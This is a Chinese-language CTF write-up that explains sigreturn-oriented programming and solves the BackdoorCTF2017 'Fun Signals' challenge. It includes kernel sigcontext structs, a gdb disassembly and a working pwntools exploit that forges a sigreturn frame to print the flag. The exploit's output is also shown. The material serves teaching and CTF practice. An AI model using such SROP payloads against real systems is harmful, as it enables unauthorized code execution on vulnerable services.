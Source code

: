 # 6.1.4 pwn BackdoorCTF2017 Fun-Signals

- [SROP 原理](#srop-原理)
  - [Linux 系统调用](#Linux 系统调用)
  - [signal 机制](#signal-机制)
- [BackdoorCTF2017 Fun Signals](#backdoorctf2017-fun-signals)
- [参考资料](#参考资料)


## SROP 原理
#### Linux 系统调用
在开始这一切之前，我想先将一下 Linux 的系统调用。64 位和 32 位的系统调用表分别在
`/usr/include/asm/unistd_64.h` 和 `/usr/include/asm/unistd_32.h` 中，另外还需要查看 `/usr/include/bits/syscall.h`。

一开始 Linux 是通过 `int 0x80` 中断的方式进入系统调用，它会先进行调用者特权级别的检查，然后进行压栈、跳转等操作，这无疑会浪费许多资源。从 Linux 2.6 开始，就出现了新的系统调用指令 `sysenter`/`sysexit`，前者用于从 Ring3 进入 Ring0，后者用于从 Ring0 返回 Ring3，它没有特权级别检查，也没有压栈的操作，所以执行速度更快。

#### signal 机制

![](../pic/6.4_signal.png)

sigreturn frame 因架构不同而不同，在 Linux 中也有了新的定义，但目前关于 srop 的利用也都是基于旧的 sigcontext，所以这里还是给出旧定义，仅当用户空间依然依赖它时才会使用它们：
```
# ifdef __i386__
struct sigcontext {
    __u16               gs, __gsh;
    __u16               fs, __fsh;
    __u16               es, __esh;
    __u16               ds, __dsh;
    __u32               edi;
    __u32               esi;
    __u32               ebp;
    __u32               esp;
    __u32               ebx;
    __u32               edx;
    __u32               ecx;
    __u32               eax;
    __u32               trapno;
    __u32               err;
    __u32               eip;
    __u16               cs, __csh;
    __u32               eflags;
    __u32               esp_at_signal;
    __u16               ss, __ssh;
    struct _fpstate     *fpstate;
    __u32               oldmask;
    __u32               cr2;
};
# else /* __x86_64__: */
struct sigcontext {
    __u64               r8;
    __u64               r9;
    __u64               r10;
    __u64               r11;
    __u64               r12;
    __u64               r13;
    __u64               r14;
    __u64               r15;
    __u64               rdi;
    __u64               rsi;
    __u64               rbp;
    __u64               rbx;
    __u64               rdx;
    __u64               rax;
    __u64               rcx;
    __u64               rsp;
    __u64               rip;
    __u64               eflags;     /* RFLAGS */
    __u16               cs;
    __u16               gs;
    __u16               fs;
    union {
        __u16           ss; /* If UC_SIGCONTEXT_SS */
        __u16           __pad0; /* Alias name for old (!UC_SIGCONTEXT_SS) user-space */
    };
    __u64               err;
    __u64               trapno;
    __u64               oldmask;
    __u64               cr2;
    struct _fpstate     *fpstate;   /* Zero when no FPU context */
#  ifdef __ILP32__
    __u32               __fpstate_pad;
#  endif
    __u64               reserved1[8];
};
```

在你使用 `ldd` 命令时，通常也会显示 vDSO，如下：
```
$ ldd /usr/bin/ls
        linux-vdso.so.1 (0x00007ffff7ffa000)
        libcap.so.2 => /usr/lib/libcap.so.2 (0x00007ffff79b2000)
        libc.so.6 => /usr/lib/libc.so.6 (0x00007ffff75fa000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd8000)
```
32 位程序则会显示 `linux-gate.so.1`，都是一个意思。


## BackdoorCTF2017 Fun Signals
这是一个 64 位静态链接的 srop，可以说是什么都没开。。。
```
$ checksec -f funsignals_player_bin 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FORTIFY  Fortified Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No       0               0       funsignals_player_bin
```
```
gdb-peda$ disassemble _start
Dump of assembler code for function _start:
   0x0000000010000000 <+0>:     xor    eax,eax
   0x0000000010000002 <+2>:     xor    edi,edi
   0x0000000010000004 <+4>:     xor    edx,edx
   0x0000000010000006 <+6>:     mov    dh,0x4
   0x0000000010000008 <+8>:     mov    rsi,rsp
   0x000000001000000b <+11>:    syscall 
   0x000000001000000d <+13>:    xor    edi,edi
   0x000000001000000f <+15>:    push   0xf
   0x0000000010000011 <+17>:    pop    rax
   0x0000000010000012 <+18>:    syscall 
   0x0000000010000014 <+20>:    int3   
End of assembler dump.
gdb-peda$ disassemble syscall
Dump of assembler code for function syscall:
   0x0000000010000015 <+0>:     syscall 
   0x0000000010000017 <+2>:     xor    rdi,rdi
   0x000000001000001a <+5>:     mov    rax,0x3c
   0x0000000010000021 <+12>:    syscall 
End of assembler dump.
gdb-peda$ x/s flag
0x10000023 <flag>:      "fake_flag_here_as_original_is_at_server"
```
而且 flag 就在二进制文件里，只不过是在服务器上的那个里面，过程是完全一样的。

首先可以看到 `_start` 函数里有两个 syscall。第一个是 `read(0, $rip, 0x400)`（调用号`0x0`），它从标准输入读取 `0x400` 个字节到 `rip` 指向的地址处，也就是栈上。第二个是 `sigreturn()`（调用号`0xf`），它将从栈上读取 sigreturn frame。所以我们就可以伪造一个 frame。

那么怎样读取 flag 呢，需要一个 `write(1, &flag, 50)`，调用号为 `0x1`，而函数 `syscall` 正好为我们提供了 `syscall` 指令，构造 payload 如下：
```python
from pwn import *

elf = ELF('./funsignals_player_bin')
io = process('./funsignals_player_bin')
# io = remote('hack.bckdr.in', 9034)

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = elf.symbols['flag']
frame.rdx = 50
frame.rip = elf.symbols['syscall']

io.send(str(frame))
io.interactive()
```
```
$ python2 exp_funsignals.py 
[*] '/home/firmy/Desktop/RE4B/srop/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
如果连接的是远程服务器，`fake_flag_here_as_original_is_at_server` 会被替换成真正的 flag。

其他文件放在了[github](../src/writeup/6.1.4_pwn_backdoorctf2017_fun_signals)相应文件夹中。

这一节我们详细介绍了 SROP 的原理，并展示了一个简单的例子，在后面的章节中，会展示其更复杂的运用，包扩结合 vDSO 的用法。


## 参考资料
- [Framing Signals—A Return to Portable Shellcode](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)
- [slides: Framing Signals a return to portable shellcode](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)
- [Sigreturn Oriented Programming](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [Sigreturn Oriented Programming is a real Threat](https://subs.emis.de/LNI/Proceedings/Proceedings259/2077.pdf)
